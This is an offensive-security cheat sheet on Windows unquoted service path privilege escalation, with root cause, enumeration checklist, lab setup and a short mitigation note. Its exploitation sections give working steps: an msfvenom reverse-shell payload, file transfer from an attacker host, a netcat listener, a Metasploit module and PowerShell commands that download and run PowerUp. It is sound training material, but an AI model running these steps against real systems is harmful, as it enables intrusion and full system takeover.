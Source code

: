 ```yaml
---
title: "Unqoted Service Paths"
tags: 
- sheets
---
```


When a **service** is created whose **executable path** contains **_spaces_** and isn’t enclosed within **_quotes_**, leads to a vulnerability known as Unquoted Service Path which allows a user to gain **SYSTEM** privileges *(only if the vulnerable service is running with SYSTEM privilege level which most of the time it is)*. This happens due to how Windows handles spaces: if the service is not enclosed within quotes & is having spaces => it would handle the space as a break and pass the rest of the service path as an argument.


## Root Cause
This is caused by the [CreateProcess](https://docs.microsoft.com/en-us/windows/win32/api/processthreadsapi/nf-processthreadsapi-createprocessa) function which creates a new process. More specifically the `lpApplicationName` string parameter which can be the full path / filename of the module to be executed. If the filename is a long string spanning acrosss multiple sub directories, contains spaces and is not enclosed in quotation marks, it will be executed in the order from left to right until the space is reached & will append `.exe` @ the end of this spaced path. 

### Example
- Consider the following path: `C:\Program Files\A Sub\B Sub\C Sub\executeMe.exe`
- In order to run `executeMe.exe` the Windows API will interpret it in the following order
	- `C:\Program.exe`
	- `C:\Program Files\A.exe`
	- `C:\Program Files\A Sub\B.exe`
	- `C:\Program Files\A Sub\B Sub\C.exe`
	- `C:\Program Files\A Sub\B Sub\C Sub\executeMe.exe`
- If `Program.exe` is not found, then `A.exe` will be executed and so on



## CheckList
- [ ] List all unquoted service paths *(minus built-in Windows services)*. Are there any available?
	```bash
	wmic service get name,pathname,displayname,startmode | findstr /i auto | findstr /i /v "C:\Windows\\" | findstr /i /v """
	wmic service get name,displayname,pathname,startmode | findstr /i /v "C:\\Windows\\system32\\" |findstr /i /v """
	gwmi -class Win32_Service -Property Name, DisplayName, PathName, StartMode | Where {$_.StartMode -eq "Auto" -and $_.PathName -notlike "C:\Windows*" -and $_.PathName -notlike '"*'} | select PathName,DisplayName,Name # (PS)
	```
- [ ] With what priviliges is the targetted service running *(should be as `LocalSystem`)* & what's the absolute path of the executable ?
	```bash
	sc qc <service-name> 
	# Look for the following
	#  START_TYPE is it AUTO_START?
	#  BINARY_PATH_NAME
	#  SERVICE_START_NAME
	```
- [ ] Does your user have write access in one of the folders where the binary path resides?
	```bash
	# Do this for every one of them 
	icacls "C:\path\to\dir\of\your\subdir"
	Get-acl 'C:\path\to\dir' | % {$_.access}   # (PS)
	# Looking for write acesss on one of your groups (e.g BUILTIN\Users)
	```
- [ ] Do u have the rights to restart the service? If not, it should be an auto-start service so that upon rebooting the system it communicates with the [Service Control Manager](https://docs.microsoft.com/en-us/windows/win32/services/service-control-manager) & gets your payload executed
	```bash
	# If you're confused about what this command spits out
	# check out this: http://woshub.com/set-permissions-on-windows-service/
	sc sdshow <service-name>
	```

## Exploitation
Considering that we have a low privilege shell already on the target system & all of the requirments above are met. Then we can just drop our malicious executable `B.exe` in `C:\Program Files\A Sub\`. When the system boots, Windows auto starts some of its services. Services on Windows communicate with the [_Service Control Manager_](https://en.wikipedia.org/wiki/Service_Control_Manager) which is responsible to start, stop and interact with these service processes. It starts this service with whatever privileges it has to run, thus letting us run whatever we want as `SYSTEM`*(read more [here](https://stackoverflow.com/questions/510170/the-difference-between-the-local-system-account-and-the-network-service-acco) about differences between accounts & privileges)*

> For a more concrete example check out [Privesc w Unquoted Service Path](Steel%20Mountain%20--%20THM.md#Privesc%20w%20Unquoted%20Service%20Path)

### Manual
```bash
# Generate payload
msfvenom -p windows/shell_reverse_tcp LHOST=wlan0 LPORT=1337 -f exe -o B.exe

# Transfer to target

# through impacket's smb server
host: python /usr/share/doc/python-impacket/examples/smbserver.py sharedfolder .
target: copy \\LHOST\sharedfolder\B.exe .
# or powershell
powershell -Command Invoke-WebRequest -Uri http://LHOST/B.exe -OutFile B.exe

# Start listener 
nc -nvlp 1337

# Restart service & profit
sc stop <service-name>
sc start <service-name>
# if access is denied just reboot
shutdown /r /t 0
```


### Metasploit

```bash
# Setup listener
use exploit/multi/handler  
set payload windows/meterpreter/reverse_tcp  
set lhost <ip>
set lport <port>
exploit -j

# Exploit
use exploit/windows/local/trusted_service_path  
set session 1  
exploit
```

### PowerSploit
- Get a local copy of [PowerUp](https://github.com/PowerShellMafia/PowerSploit/blob/master/Privesc/PowerUp.ps1)
```bash
# Setup local http/smb server to serve PowerUp

# Call Get-ServiceUnquoted from PowerUp without touching the disk
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('http://LHOST/PowerUp.ps1');Get-ServiceUnquoted"

# Checks for every spaced path, whether the context of the cmd shell  have write/modify access or not.
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Get-ChildItem C:\ -Recurse | Get-ModifiablePath"

# patches the command given to it as an argument to the pre-compiled C# executable service binary to the specified path.
powershell -nop -exec bypass -c "IEX(New-Object Net.WebClient).DownloadString('https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/master/Privesc/PowerUp.ps1');Write-ServiceBinary -Name 'Some Vulnerable Service' -Command '\\LHOST\sharedfolder\B.exe' -Path 'C:\Program Files\A Subfolder\B.exe'"
```


## Lab Environment Setup

### Creating users
```bash
# Create a new user & add him to the Administrators group
net user dumbadmin /add
net localgroup Administrators dumbadmin /add
net localgroup Users dumbadmin /delete

# Create a low-privileged user
net user normie /add
```

This is what you should have now

![[write-ups/images/Pasted image 20220821085517.png]]

### Deploy vulnerable service
Login as the `dumbadmin` user & spawn a priviliged command prompt, then use [sc](https://docs.microsoft.com/en-us/windows-server/administration/windows-commands/sc-create) to create the service
```bash
sc create "Vulnerable Service" binpath= "C:\Program Files\A Sub\B Sub\C Sub\ape.exe" Displayname= "Service Vuln to Unqoted Service Path" start= auto
```

Now create the folders & assign write permissions to `BUILTIN\Users` on `A Sub` or `B Sub` using [icacls](https://ss64.com/nt/icacls.html)
```bash
mkdir "C:\Program Files\A Sub\B Sub\C Sub"
icacls "C:\Program Files\A Sub"
icacls "C:\Program Files\A Sub" /grant "BUILTIN\Users":W
```

![[write-ups/images/Pasted image 20220821090209.png]]

The part we're interested in is the first line: `A Sub BUILTIN\Users:(W)`. This confirms that any normal users have write access to the `A Sub` directory
To finally verify that everything is running as expected we can find every service which isn't enclosed in double quotes

![[write-ups/images/Pasted image 20220821090532.png]]

## Mitigation
Gets all the services from `HKLM\SYSTEM\CurrentControlSet\services` & find those services with spaces and without quotes, prepends and appends double quotes to the service binary executable and fixes it.

## Refs
- [Windows Privilege Escalation — Part 1 (Unquoted Service Path)](https://medium.com/@SumitVerma101/windows-privilege-escalation-part-1-unquoted-service-path-c7a011a8d8ae)
- [Hijack Execution Flow: Path Interception by Unqoted Path -- MITRE](https://attack.mitre.org/techniques/T1574/009/)

## See Also